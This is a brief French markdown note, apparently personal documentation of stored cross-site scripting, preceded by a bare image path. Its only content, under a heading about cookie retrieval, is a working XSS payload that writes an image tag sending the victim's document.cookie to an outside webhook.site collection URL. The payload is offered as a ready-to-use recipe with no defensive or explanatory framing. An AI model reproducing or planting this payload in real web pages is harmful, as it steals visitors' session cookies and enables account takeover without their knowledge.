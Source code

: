 # Documentation XSS stockée

## Récuperation cookie
```shell
<script>
document.write('<img src="https://webhook.site/9c7694db-3d13-407b-8d0c-d1a52bb5737d?cookie=' + document.cookie + '" />');
</script>
```
